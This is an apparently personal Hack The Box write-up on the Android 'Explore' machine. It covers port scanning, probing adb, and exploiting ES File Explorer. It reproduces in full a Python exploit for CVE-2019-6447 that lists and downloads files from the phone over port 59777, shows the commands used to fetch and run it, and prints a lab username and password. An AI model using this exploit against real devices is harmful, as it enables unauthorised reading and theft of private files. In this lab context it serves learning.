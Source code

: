 ```yaml
---
title: "Explore"
author: "Me"
date: "July 14, 2021"
output: html_document
---
```


# Explore

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (?/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Android</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_explore_desc.png){: height="415px" width = 625px"}
</div>

**Ports/services exploited:** \\
**Tools:** \\
**Techniques:** \\
**Keywords:**  


## 1. Port scanning
{:style="color:DarkRed; font-size: 170%;"}

Let's start by adding the box' IP to our hosts file with the following command:

````
echo "10.10.10.247 explore.htb" >> /etc/hosts
`````

Then, we'll use *nmap* to detect what ports and services are running on the machine. 
As usual, we specify the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan:

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_explore_nmap.png)
</div>

There's not much going there, only ssh on port 2222 (it's usually on port 22) and freeciv on port 5555, which appears to be a video game. 
We will therefore look for ssh 2.0, Banana Studio and freeciv vulnerabilities.

## 2. Find and exploit vulnerabilities
{:style="color:DarkRed; font-size: 170%;"}

Most of the time, there is a web server running on HtB machines. It's not the case here, so we start by Googling and searching for potential exploits on Metasploit. While we search, we can launch a full TCP scan in the background:

<div class="img_container">
![FULL tcp scan]({{https://jsom1.github.io/}}/_images/htb_explore_full.png)
</div>

We see two more opened ports with unknown services. I just browsed to those ports to see if it could be a web server, but it wasn't the case. We can try to get more information about those services by initiating a telnet or netcat session with the following syntax:

````
sudo telnet explore.htb 36199
`````

Once connected, we can issue a command. Obviously this will not work since telnet is usually running on port 23, but sometimes the server responds with an error message that includes more information about the service. It is not the case for any of the two services here.\\
Let's leave them aside for now and go back at port 5000. After a few Google searches, I found an interesting article (https://medium.com/@samsepio1/android4-vulnhub-writeup-3036f352640f). Apparently, this port is also used by **adb** (Android Debug Bridge). It's a tool that allows one to connect to an android device remotely and is generally used for developement. So why is it written freeciv? It appears that sometimes *nmap* indicates freeciv is running, whereas it is *adb* (there's an opened issue for that on nmap's github repo). In our case we don't know which service it is, but we can give *adb* a try. Following the article, we might be able to connect to the machine and get a shell.

We start by installing *adb* (warning: taking a snapshot before executing the next command is recommanded. I didn't and it pretty much broke my kali machine. After installation it restarted and I had no more GUI. I had to reinstall *xfce* and even after that my machine was altered):

````
sudo apt-get install adb
`````

We can then try to connect to it:

<div class="img_container">
![adb]({{https://jsom1.github.io/}}/_images/htb_explore_adb.png)
</div>

We see the daemon wasn't running and is being started on port 5037. I then tried to connect to it (*sudo adb connect explore.htb:5037*) but nothing happens and the connection times out... There's a command to list the connected devices:

````
adb devices
`````

<div class="img_container">
![adb devices]({{https://jsom1.github.io/}}/_images/htb_explore_dev.png)
</div>

We see the previous discovered port, but it is offline. This might be helpful later though. This seems to be a dead end for now. Let's start from fresh with nmap:

<div class="img_container">
![nmap2]({{https://jsom1.github.io/}}/_images/htb_explore_nmap2.png)
</div>

Surpinsingly, nmap discovers two new ports this time, among which we see a web server... I don't know why it didn't find them on the first scan. Let's search for more information about *ES File Explorer* and *Bukkit JSONAPI*. We quickly find an exploit on *exploit-db* for *ES File Explorer*:

````
# Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read
# Date: 29/06/2021
# Exploit Author: Nehal Zaman
# Version: ES File Explorer v4.1.9.7.4
# Tested on: Android
# CVE : CVE-2019-6447

import requests
import json
import ast
import sys

if len(sys.argv) < 3:
    print(f"USAGE {sys.argv[0]} <command> <IP> [file to download]")
    sys.exit(1)

url = 'http://' + sys.argv[2] + ':59777'
cmd = sys.argv[1]
cmds = ['listFiles','listPics','listVideos','listAudios','listApps','listAppsSystem','listAppsPhone','listAppsSdcard','listAppsAll','getFile','getDeviceInfo']
listCmds = cmds[:9]
if cmd not in cmds:
    print("[-] WRONG COMMAND!")
    print("Available commands : ")
    print("  listFiles         : List all Files.")
    print("  listPics          : List all Pictures.")
    print("  listVideos        : List all videos.")
    print("  listAudios        : List all audios.")
    print("  listApps          : List Applications installed.")
    print("  listAppsSystem    : List System apps.")
    print("  listAppsPhone     : List Communication related apps.")
    print("  listAppsSdcard    : List apps on the SDCard.")
    print("  listAppsAll       : List all Application.")
    print("  getFile           : Download a file.")
    print("  getDeviceInfo     : Get device info.")
    sys.exit(1)

print("\n==================================================================")
print("|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |")
print("|                Coded By : Nehal a.k.a PwnerSec                 |")
print("==================================================================\n")

header = {"Content-Type" : "application/json"}
proxy = {"http":"http://127.0.0.1:8080", "https":"https://127.0.0.1:8080"}

def httpPost(cmd):
    data = json.dumps({"command":cmd})
    response = requests.post(url, headers=header, data=data)
    return ast.literal_eval(response.text)

def parse(text, keys):
    for dic in text:
        for key in keys:
            print(f"{key} : {dic[key]}")
        print('')

def do_listing(cmd):
    response = httpPost(cmd)
    if len(response) == 0:
        keys = []
    else:
        keys = list(response[0].keys())
    parse(response, keys)

if cmd in listCmds:
    do_listing(cmd)

elif cmd == cmds[9]:
    if len(sys.argv) != 4:
        print("[+] Include file name to download.")
        sys.exit(1)
    elif sys.argv[3][0] != '/':
        print("[-] You need to provide full path of the file.")
        sys.exit(1)
    else:
        path = sys.argv[3]
        print("[+] Downloading file...")
        response = requests.get(url + path)
        with open('out.dat','wb') as wf:
            wf.write(response.content)
        print("[+] Done. Saved as `out.dat`.")

elif cmd == cmds[10]:
    response = httpPost(cmd)
    keys = list(response.keys())
    for key in keys:
        print(f"{key} : {response[key]}")
``````

With this exploit, we should be able to read files on the server. On *exploit-db*, we click on *View raw*, copy the url and curl it from Kali as follows:

````
sudo curl https://www.exploit-db.com/raw/50070 -o esfile.py
`````

And we can try it with the given syntax in the exploit:

<div class="img_container">
![exploit]({{https://jsom1.github.io/}}/_images/htb_explore_png.png)
</div>

There's a file called *creds.jpg* that we can download with the exploit's *getFile* function:

````
sudo python3 esfile.py getFile 10.10.10.247/storage/emulated/0/DCIM/creds.jpg
`````

The file is downloaded on our machine and we can simply open it to discover its content:

<div class="img_container">
![creds]({{https://jsom1.github.io/}}/_images/htb_explore_creds.png)
</div>

And we have the username *kristi* with the the password *Kr1sT!5h@Rp3xPl0r3!*. Before trying those credentials with SSH, let's have a look at the other available resources.



<ins>**My thoughts**</ins>
 
First Android box, cool that it doesn't start with a web serv.
